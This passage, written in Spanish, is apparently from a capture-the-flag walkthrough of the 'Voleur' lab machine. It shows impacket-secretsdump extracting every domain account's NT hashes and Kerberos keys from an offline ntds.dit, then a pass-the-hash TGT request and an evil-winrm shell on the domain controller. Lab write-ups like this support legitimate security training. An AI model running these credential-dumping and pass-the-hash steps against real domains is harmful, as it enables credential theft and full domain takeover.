Ahora movemos estos archivos ``ntds.dit`` ,``SECURITY``, ``SYSTEM`` a la misma carpeta y los intentamos descifrar:
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL

Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xbbdd1a32433b87bcc9b875321b883d2d
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:759d6c7b27b4c7c4feda8909bc656985b457ea8d7cee9e0be67971bcb648008804103df46ed40750e8d3be1a84b89be42a27e7c0e2d0f6437f8b3044e840735f37ba5359abae5fca8fe78959b667cd5a68f2a569b657ee43f9931e2fff61f9a6f2e239e384ec65e9e64e72c503bd86371ac800eb66d67f1bed955b3cf4fe7c46fca764fb98f5be358b62a9b02057f0eb5a17c1d67170dda9514d11f065accac76de1ccdb1dae5ead8aa58c639b69217c4287f3228a746b4e8fd56aea32e2e8172fbc19d2c8d8b16fc56b469d7b7b94db5cc967b9ea9d76cc7883ff2c854f76918562baacad873958a7964082c58287e2
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:d5db085d469e3181935d311b72634d77
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x5d117895b83add68c59c7c48bb6db5923519f436
dpapi_userkey:0xdce451c1fdc323ee07272945e3e0013d5a07d1c3
[*] NL$KM 
 0000   06 6A DC 3B AE F7 34 91  73 0F 6C E0 55 FE A3 FF   .j.;..4.s.l.U...
 0010   30 31 90 0A E7 C6 12 01  08 5A D0 1E A5 BB D2 37   01.......Z.....7
 0020   61 C3 FA 0D AF C9 94 4A  01 75 53 04 46 66 0A AC   a......J.uS.Ff..
 0030   D8 99 1F D3 BE 53 0C CF  6E 2A 4E 74 F2 E9 F2 EB   .....S..n*Nt....
NL$KM:066adc3baef73491730f6ce055fea3ff3031900ae7c61201085ad01ea5bbd23761c3fa0dafc9944a0175530446660aacd8991fd3be530ccf6e2a4e74f2e9f2eb
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 898238e1ccd2ac0016a18c53f4569f40
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5db085d469e3181935d311b72634d77:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5aeef2c641148f9173d663be744e323c:::
voleur.htb\ryan.naylor:1103:aad3b435b51404eeaad3b435b51404ee:3988a78c5a072b0a84065a809976ef16:::
voleur.htb\marie.bryant:1104:aad3b435b51404eeaad3b435b51404ee:53978ec648d3670b1b83dd0b5052d5f8:::
voleur.htb\lacey.miller:1105:aad3b435b51404eeaad3b435b51404ee:2ecfe5b9b7e1aa2df942dc108f749dd3:::
voleur.htb\svc_ldap:1106:aad3b435b51404eeaad3b435b51404ee:0493398c124f7af8c1184f9dd80c1307:::
voleur.htb\svc_backup:1107:aad3b435b51404eeaad3b435b51404ee:f44fe33f650443235b2798c72027c573:::
voleur.htb\svc_iis:1108:aad3b435b51404eeaad3b435b51404ee:246566da92d43a35bdea2b0c18c89410:::
voleur.htb\jeremy.combs:1109:aad3b435b51404eeaad3b435b51404ee:7b4c3ae2cbd5d74b7055b7f64c0b3b4c:::
voleur.htb\svc_winrm:1601:aad3b435b51404eeaad3b435b51404ee:5d7e37717757433b4780079ee9b1d421:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:f577668d58955ab962be9a489c032f06d84f3b66cc05de37716cac917acbeebb
Administrator:aes128-cts-hmac-sha1-96:38af4c8667c90d19b286c7af861b10cc
Administrator:des-cbc-md5:459d836b9edcd6b0
DC$:aes256-cts-hmac-sha1-96:65d713fde9ec5e1b1fd9144ebddb43221123c44e00c9dacd8bfc2cc7b00908b7
DC$:aes128-cts-hmac-sha1-96:fa76ee3b2757db16b99ffa087f451782
DC$:des-cbc-md5:64e05b6d1abff1c8
krbtgt:aes256-cts-hmac-sha1-96:2500eceb45dd5d23a2e98487ae528beb0b6f3712f243eeb0134e7d0b5b25b145
krbtgt:aes128-cts-hmac-sha1-96:04e5e22b0af794abb2402c97d535c211
krbtgt:des-cbc-md5:34ae31d073f86d20
voleur.htb\ryan.naylor:aes256-cts-hmac-sha1-96:0923b1bd1e31a3e62bb3a55c74743ae76d27b296220b6899073cc457191fdc74
voleur.htb\ryan.naylor:aes128-cts-hmac-sha1-96:6417577cdfc92003ade09833a87aa2d1
voleur.htb\ryan.naylor:des-cbc-md5:4376f7917a197a5b
voleur.htb\marie.bryant:aes256-cts-hmac-sha1-96:d8cb903cf9da9edd3f7b98cfcdb3d36fc3b5ad8f6f85ba816cc05e8b8795b15d
voleur.htb\marie.bryant:aes128-cts-hmac-sha1-96:a65a1d9383e664e82f74835d5953410f
voleur.htb\marie.bryant:des-cbc-md5:cdf1492604d3a220
voleur.htb\lacey.miller:aes256-cts-hmac-sha1-96:1b71b8173a25092bcd772f41d3a87aec938b319d6168c60fd433be52ee1ad9e9
voleur.htb\lacey.miller:aes128-cts-hmac-sha1-96:aa4ac73ae6f67d1ab538addadef53066
voleur.htb\lacey.miller:des-cbc-md5:6eef922076ba7675
voleur.htb\svc_ldap:aes256-cts-hmac-sha1-96:2f1281f5992200abb7adad44a91fa06e91185adda6d18bac73cbf0b8dfaa5910
voleur.htb\svc_ldap:aes128-cts-hmac-sha1-96:7841f6f3e4fe9fdff6ba8c36e8edb69f
voleur.htb\svc_ldap:des-cbc-md5:1ab0fbfeeaef5776
voleur.htb\svc_backup:aes256-cts-hmac-sha1-96:c0e9b919f92f8d14a7948bf3054a7988d6d01324813a69181cc44bb5d409786f
voleur.htb\svc_backup:aes128-cts-hmac-sha1-96:d6e19577c07b71eb8de65ec051cf4ddd
voleur.htb\svc_backup:des-cbc-md5:7ab513f8ab7f765e
voleur.htb\svc_iis:aes256-cts-hmac-sha1-96:77f1ce6c111fb2e712d814cdf8023f4e9c168841a706acacbaff4c4ecc772258
voleur.htb\svc_iis:aes128-cts-hmac-sha1-96:265363402ca1d4c6bd230f67137c1395
voleur.htb\svc_iis:des-cbc-md5:70ce25431c577f92
voleur.htb\jeremy.combs:aes256-cts-hmac-sha1-96:8bbb5ef576ea115a5d36348f7aa1a5e4ea70f7e74cd77c07aee3e9760557baa0
voleur.htb\jeremy.combs:aes128-cts-hmac-sha1-96:b70ef221c7ea1b59a4cfca2d857f8a27
voleur.htb\jeremy.combs:des-cbc-md5:192f702abff75257
voleur.htb\svc_winrm:aes256-cts-hmac-sha1-96:6285ca8b7770d08d625e437ee8a4e7ee6994eccc579276a24387470eaddce114
voleur.htb\svc_winrm:aes128-cts-hmac-sha1-96:f21998eb094707a8a3bac122cb80b831
voleur.htb\svc_winrm:des-cbc-md5:32b61fb92a7010ab
[*] Cleaning up... 
```

``Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::``
Ahora solicitamos un tgt con el usuario administrador y su hash:
```bash
export KRB5_CONFIG=krb5.conf
impacket-getTGT -hashes :e656e07c56d831611b577b160b259ad2 -dc-ip 10.129.15.133 voleur.htb/Administrator
export KRB5CCNAME=Administrator.ccache
evil-winrm -i dc.voleur.htb -r voleur.htb
```
Ahora estamos como administradores del dc y en el escritorio tenemos la flag de root:
